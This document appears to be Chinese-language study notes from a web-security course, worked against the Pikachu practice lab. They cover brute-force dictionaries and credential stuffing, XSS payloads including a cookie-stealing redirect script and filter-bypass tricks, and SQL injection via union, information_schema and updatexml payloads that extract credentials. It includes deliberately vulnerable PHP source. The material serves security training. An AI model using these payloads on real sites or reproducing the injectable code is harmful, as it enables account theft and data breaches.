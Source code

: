 <!-- TOC -->

- [Web安全](#web%E5%AE%89%E5%85%A8)
    - [暴力破解漏洞](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E6%BC%8F%E6%B4%9E)
        - [有效的字典](#%E6%9C%89%E6%95%88%E7%9A%84%E5%AD%97%E5%85%B8)
        - [漏洞测试流程](#%E6%BC%8F%E6%B4%9E%E6%B5%8B%E8%AF%95%E6%B5%81%E7%A8%8B)
        - [验证码](#%E9%AA%8C%E8%AF%81%E7%A0%81)
        - [防范措施](#%E9%98%B2%E8%8C%83%E6%8E%AA%E6%96%BD)
    - [跨站脚本漏洞 - XSS](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E---xss)
        - [跨站脚本漏洞概述](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E%E6%A6%82%E8%BF%B0)
        - [反射型XSSget](#%E5%8F%8D%E5%B0%84%E5%9E%8Bxssget)
        - [存储型XSS](#%E5%AD%98%E5%82%A8%E5%9E%8Bxss)
        - [DOM型XSS](#dom%E5%9E%8Bxss)
        - [案例1：GET型XSS获取cookie](#%E6%A1%88%E4%BE%8B1get%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例2：POST型XSS获取cookie](#%E6%A1%88%E4%BE%8B2post%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例3：XSS钓鱼 - basic认证](#%E6%A1%88%E4%BE%8B3xss%E9%92%93%E9%B1%BC---basic%E8%AE%A4%E8%AF%81)
        - [案例4：XSS键盘记录](#%E6%A1%88%E4%BE%8B4xss%E9%94%AE%E7%9B%98%E8%AE%B0%E5%BD%95)
        - [XSS盲打](#xss%E7%9B%B2%E6%89%93)
        - [XSS绕过-过滤-转换](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E8%BD%AC%E6%8D%A2)
        - [XSS绕过-过滤-编码](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E7%BC%96%E7%A0%81)
        - [XSS绕过-htmlspecialchars使用](#xss%E7%BB%95%E8%BF%87-htmlspecialchars%E4%BD%BF%E7%94%A8)
        - [XSS实战练习](#xss%E5%AE%9E%E6%88%98%E7%BB%83%E4%B9%A0)
    - [SQL注入](#sql%E6%B3%A8%E5%85%A5)
        - [数字型注入](#%E6%95%B0%E5%AD%97%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [字符型注入](#%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [搜索型注入](#%E6%90%9C%E7%B4%A2%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [xx型注入](#xx%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [案例1-基于union的信息获取](#%E6%A1%88%E4%BE%8B1-%E5%9F%BA%E4%BA%8Eunion%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [mysql相关知识](#mysql%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86)
        - [案例2-基于information_schema的信息获取](#%E6%A1%88%E4%BE%8B2-%E5%9F%BA%E4%BA%8Einformation_schema%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [案例3-基于函数报错的信息获取](#%E6%A1%88%E4%BE%8B3-%E5%9F%BA%E4%BA%8E%E5%87%BD%E6%95%B0%E6%8A%A5%E9%94%99%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)

<!-- /TOC -->
# Web安全


## 暴力破解漏洞

暴力破解 = 连续性尝试 + 字典+ 自动化

### 有效的字典

- 弱口令
- 社工库，已收集的账号密码，比如脱裤收集的，可以撞库
- 使用指定字符利用工具按照规则生成密码
- 常用账户密码，如admin/root
- 遵循注册时的密码要求

### 漏洞测试流程

- 确认暴力破解的可能性，如抓包
- 优化字典，如密码限定字符、长度
- 配置自动化工具，如超时时间、重试次数
- [常见字典](https://github.com/danielmiessler/SecLists)
- 注意事项：字典导入时不能有中文路径

### 验证码

- 作用
    - 登陆暴力破解
    - 防止机器恶意注册
- 认证流程
    - 登陆页面，后台生成验证码，同时使用算法生成图片，并将图片response给客户端，同时将算法生成的值全局赋值存到 SESSION中
    - 校验验证码，客户端将认证信息和验证码一同提交，后台对提交的验证码与 SESSION里面的验证码进行比较
    - 客户端重新刷新页面，再次生成新的验证码，验证码算法中一般包含随机函数，所以每次刷新都会改变
- 不安全验证码 - 客户端
    - 使用前端js实现验证码(纸老虎)
    - 验证码在cookie容易泄露，可被获取
    - 将验证码在前端源代码中泄露，容易被获取
- 不安全验证码 - 服务端
    - 验证码在后台不过期，导致可以长期被使用
    - 验证码校验不严格，逻辑出现问题
    - 验证码设计的太过简单或者有规律，容易被猜解
    - session？

### 防范措施

- 设计安全的验证码（安全的流程 + 复杂而又可用的图形）
- 对认证错误的提交进行计数并给出限制，比如连续5次密码错误，锁定2小时
- 必要的情况下，使用双因素认证
- token对防止暴力破解没有用



## 跨站脚本漏洞 - XSS

### 跨站脚本漏洞概述

- XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在 OWASP TOP10的排名前三
- XSS是一种发生在Web前端的漏洞，所以其危害的对象也主要是前端用户
- XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、用户 cookie 获取。甚至可以结合浏览自身的漏洞对用户主机进行远程控制
- 常见类型
  - 反射型，交互的数据一般不会被存在在数据库里面，一次性，一般岀现在查询类页面等
  - 存储型，存储在数据库里面，永久性，一般岀现在留言板，注册等页面
  - DOM型，不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性，也属于反射型
漏洞形成原因：主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
- 测试流程
  - 在目标站点上找到输入点，比如查询接口，留言板等
  - 输入一组“特殊字符 + 唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理
  - 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）
  - 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XS漏洞
- TIPS
  - 一般查询接口容易出现反射型XSS，留言板容易岀现存储型XSS
  - 由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行(浏览器)
  - 通过变化不同的script，尝试绕过后台过滤机制

### 反射型XSS(get)

该测试中，前台未进行输入限制，后台未进行输入转义，导致js脚本正常执行，构成反射性XSS

```html
<p class='notice'>who is <script>alert('xss')</script>,i don't care!</p> 
```
对于get型XSS，payload直接放在url中

```html
http://192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```

- GET方式的XSS漏洞更加容易被利用，一般利用的方式是将带有跨站脚本的url伪装后发送给目标，而POST方式由于是以表单方式提交，无法直接使用URL方式进行攻击
- GET和POST典型区别：GET是以url方式提交数据，POST是以表单方式在请求体里面提交

### 存储型XSS

存储型XSS漏洞跟反射型形成的原因一样，不同的是存储型XSS下攻击者可以将脚本注入到后台存储起来，构成更加持久的危害，因此存储型XSS也称“永久型”XSS。

```html
<p class='con'><script>alert('xss')</script></p>
<http://192.168.43.65/pikachu/vul/xss/xss_stored.php>
```


### DOM型XSS

[DOM举例](https://www.w3school.com.cn/tiy/t.asp?f=hdom_document_getbyid)

```html
<!--源码-->
<a href='"+str+"'>what do you see?</a>
<!--payload-->
#' onclick="alert('xss')"/>
<!--闭合-->
<a href='#' onclick="alert('xss')"/>'>what do you see?</a>
```

### 案例1：GET型XSS获取cookie

```html
<!--注意pkxss的路径-->
<script>document.location = 'http://192.168.43.65/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>

192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=<script>document.location+%3D+'http%3A%2F%2F192.168.43.65%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D'+%2B+document.cookie%3B<%2Fscript>&submit=submit
```

[什么是cookie？](https://www.jianshu.com/p/6fc9cea6daa2)

### 案例2：POST型XSS获取cookie

### 案例3：XSS钓鱼 - basic认证

### 案例4：XSS键盘记录

**什么是跨域？**

| http:// | www.   | xyz.com: | 8080 | /script/test.js |
| ------- | ------ | -------- | ---- | --------------- |
| 协议    | 子域名 | 主域名   | 端口 | 资源地址        |

当协议、主机（主域名,子域名）、端口中的任意一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，称为跨域操作。

**跨域-同源策略**
- 为了安全考虑，所有的浏览器都约定了“同源策略”,，同源策略规定，两个不同域名之间不能使用JS进行相互操- 作。
- 比如: x.com域名下的javascript并不能操作y.com域下的对象。
- 如果想要跨域操作,则需要管理员进行特殊的配置。

### XSS盲打

用户提交信息，推测后台管理员会看，输出在管理员看到的页面。获取管理员cookie，冒充管理员在后台为所欲为。

### XSS绕过-过滤-转换

1. 前端限制绕过,直接抓包重放,或者修改html前端代码
2. 大小写,比如:<SCriPt>
3. 拼凑:<scr<script>ipt> 
4. 使用注释进行干扰:<scri<!--test-->pt>

### XSS绕过-过滤-编码

核心思路：后台过滤了特殊字符,比如<script>标签,但该标签可以被各种编码,后台不一定会过滤,当浏览器对该编码进行识别时,会翻译成正常的标签，从而执行.
注意：在使用编码时需要注意编码在输出点是否会被正常识别和翻译.
```html
<!--例如-->
<img src=x onerror=”alert('xss')" />可以把alert("xss")进行html编码
<img src=x onerror "&#97;&# 108;&# 101;&# 114;&# 116;&#40;&#39;&# 120;&# 115;&# 115;&#39;&#41;
```


### XSS绕过-htmlspecialchars()使用

### XSS实战练习

xss-lab，放在xmapp的htdocs文件夹中，打开apache，访问即可。


## SQL注入
在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。

### 数字型注入
```php
//后台源码
if(isset($_POST['submit']) && $_POST['id']!=null){
    //这里没有做任何处理，直接拼到select里面去了,形成Sql注入
    $id=$_POST['id'];
    $query="select username,email from member where id=$id";
    $result=execute($link, $query);
    //这里如果用==1,会严格一点
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $username=$data['username'];
            $email=$data['email'];
            $html.="<p class='notice'>hello,{$username} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的user id不存在，请重新输入！</p>";
    }
}
```
```sql
--正常查询出一条记录
select eamil where user_id = 1 --or 1=1; 
--注入，查询所有记录
select eamil where user_id = 1 or 1 = 1；
```

### 字符型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
```sql
--正常情况
select email from users where username = 'kobe';-- kobe' or 1=1#
--在url中构造闭合，注入
select email from users where username = 'kobe' or 1=1#'
```

### 搜索型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配，需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
    }else{

        $html1.="<p class='notice'>0o。..没有搜索到你输入的信息！</p>";
    }
}
```

```sql
--正常情况
select email from users where username like '%k%'; --k%' or 1=1#
--构造闭合，注入
select email from users where username like '%k%' or 1=1#%';

```

### xx型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}

```

```sql
--正常情况
select email from users where username = kobe;
--构造闭合，注入
select email from users where username = 'kobe') or 1=1#;
```

```sql
--通过一个输入，查看返回结果，并判断输入是否参与后台的sql语句中
---如果1正常输出，2不能正常输出，说明拼接成功，存在sql漏洞
kobe' and 1=1#;
kobe' and 1=2#;

--单个字符的测试，如'或者"，欺骗后天数据库报错
```
总结：闭合测试，构造sql，欺骗后台执行

>小知识：MySQ有三种注释，``#`` ``--`` ``/**/``

### 案例1-基于union的信息获取
```sql
select email from users where id = 1 union select database();
select email from users where id = 1 union select user();
select email from users where id = 1 union select version();
--字符型sql注入闭合，先用order by判断字段数，假设为1
xx' union select database();
```
### mysql相关知识
```sql
--union用法，前后字段数一致
select email from users where id = 1
 union 
select 字段1 from 表名 where 条件;
select database();--获取当前数据库名称
select user();--当前用户权限
select version();--当前数据库版本

show databases;--查看所有数据库
show tables;--查看所有表
desc user;--查看user表所有字段
use information_schema;--切换数据库
--查询表中有几个字段
---使用第一列进行排序，如果第一列存在，则可以正常输出，否则错误
select id from users where username = 'kobe' order by 1;

```

### 案例2-基于information_schema的信息获取
mysql自带一个数据库 information_schema 非常重要，里面有很多信息。
```sql
--获取当前数据库名称 pikachu 
select email,username from users where id = 1
 union
select database(),user();
----payload
kobe' union select database(),user()#

--获取表名 users
select email,username from users where id = 1
 union 
select table_schema,table_name from information_schema.tables where table_schema = 'pikachu';
---payload
kobe' union select table_schema,table_name from information_schema.tables where table_schema = 'pikachu'#

--获取字段名
select email,username from users where id = 1
 union 
select table_name,column_name from information_schema.columns where table_name = 'users';
---payload
kobe' union select table_name,column_name from information_schema.columns where table_name = 'users'#

--获取内容
select email,username from users where id = 1
 union 
select username,password from users;
---payload
kobe' union select username,password from users#

```

### 案例3-基于函数报错的信息获取
背景条件：后台没有屏蔽数据库报错信息或者做标准化处理，在语法发生错误时会输出在前端
- updatexml(xml_document,XpathString,new_value): 是MySQL对XML文档数据进行查询和修改的XPATH函数,XpathString必须是有效的，否则报错
- extractvalue(): 是MySQL对XML文档数据进行查询的XPATH函数
- floor(): MySQL中用来取整的函数

```sql
--第一步，先检查有没有报错信息返回
--第二部，构造payload
kobe' and updatexml(1,version(),0)# --输出version信息不完整
kobe' and updatexml(1,concat(0x7e,version()),0)# --0x7e是~的16进制
kobe' and updatexml(1,concat(0x7e,database()),0)#

--使用上次使用schema的select语句，替换version()
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'pikachu')),0)# --Operand should contain 1 column(s)
--使用这种方式，可以和之前一样，一个一个的拿到表，拿到字段，拿到信息
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = 'pikachu' limit 0,1)),0)# --XPATH syntax error: '~httpinfo',limit 0/1/2/3/4/5 1

### 案例4-基于insert、update、delete的注入
```sql
--正常语句
insert into users(username,password,id) values('xiaoming',123456,001);
--使用 ' or …… or ' 拼接
insert into users(username,password,id) values('xiaoming' or updatexml(1,concat(0x7e,version()),0) or '',123456,001);
--payload
xiaoming' or updatexml(1,concat(0x7e,version()),0) or '


```




```
## 相关链接
[视频教程](https://www.ichunqiu.com/course/63838)[|靶场](https://github.com/zhuifengshaonianhanlu/pikachu)